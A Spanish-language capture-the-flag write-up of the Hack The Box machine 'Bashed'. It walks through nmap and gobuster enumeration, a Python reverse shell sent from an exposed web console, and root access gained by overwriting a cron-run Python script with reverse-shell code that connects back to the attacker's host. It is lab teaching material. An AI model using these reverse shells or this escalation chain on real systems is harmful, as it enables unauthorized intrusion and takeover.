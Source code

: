 ```yaml
---
title: "Bashed"
date: Fri Aug 23 2024 10:13:12 GMT+0200 (Central European Summer Time)
categories: [WriteUp, HTB, Linux]
tags: [fuzzing, gobuster, pspy]
image: /assets/img/cabeceras/2024-08-23-bashed---writeup.png
---
```


---

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127204515.png)

---

NMAP

```bash
# Nmap 7.94SVN scan initiated Sat Jan 27 20:55:30 2024 as: nmap -sCV -p 80 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xs
l -oN targeted -oX targetedXML 10.129.79.90
Nmap scan report for 10.129.79.90
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 27 20:55:38 2024 -- 1 IP address (1 host up) scanned in 8.04 seconds
```

NMAP HTTP-ENUM

```bash
nmap -sCV -p80 --script http-enum 10.129.79.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 20:57 CET
Nmap scan report for 10.129.79.90
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.96 seconds
```

HTTP

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127205956.png)

Vamos a realizar fuzzing de directorios y ficheros.

```bash
$ gobuster dir -u http://10.129.79.90 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --follow-redirect --add-slash
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 293]
/uploads/             (Status: 200) [Size: 14]
/php/                 (Status: 200) [Size: 940]
/css/                 (Status: 200) [Size: 1759]
/images/              (Status: 200) [Size: 1565]
/dev/                 (Status: 200) [Size: 1149]
/js/                  (Status: 200) [Size: 3166]
/fonts/               (Status: 200) [Size: 2096]
/server-status/       (Status: 403) [Size: 301]
```

Dentro de /dev encontramos lo siguiente:

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211027.png)

Si pulsamos en cualquiera de los dos abriremos una consola de ejecución local de comandos.

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211226.png)

Vamos a intentar mandarnos una reverse shell.

Nos ponemos a la escucha por el puerto 4444 con _NetCat_

```bash
$ nc -nlvp 4444
```

Ejecutamos lo siguiente:

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127212741.png)

Hacemos un _sudo -l_ y vemos algo interesante...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220412.png)

Podemos ejecutar comandos como el usuario _scriptmanager_ sin proporcionar contraseña.

Nos subimos _linpeas_ y _pspy_ y seguimos enumerando...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220643.png)

Con _pspy_ descubrimos que root ejecuta un script en python que ejecuta todos los scripts con extensión .py dentro de la carpeta /scripts. Pero no podemos ver ni entrar en esa carpeta, vamos a ver a quién pertenece...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220925.png)

Sospechosamente pertenece al usuario _scriptmanager_...

Pero recordamos que tenemos el permiso de ejecutar tareas como ese usuario así que vamos a intentar espawnearnos una shell...

```bash
$ sudo -u scriptmanager bash -i
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221109.png)

Y funciona! somo el usuario _scriptmanager_!

Ahora podemos modificar y entrar en la carpeta /script. Como existe una tarea que ejecuta scripts cada dos minutos como usuario _root_, lo que tendremos que hacer es crear un archivo Python que nos mande una shell ...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221415.png)

Creo que bastará con modificar el archivo .py existente.

Lo abrimos y lo dejamos así:

```Python
import socket,subprocess,os 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.93",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Grabamos y nos ponemos en escucha por el puerto que hayamos indicado:

```bash
$ mc -nlvp 8888
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127222242.png)

Reto conseguido!

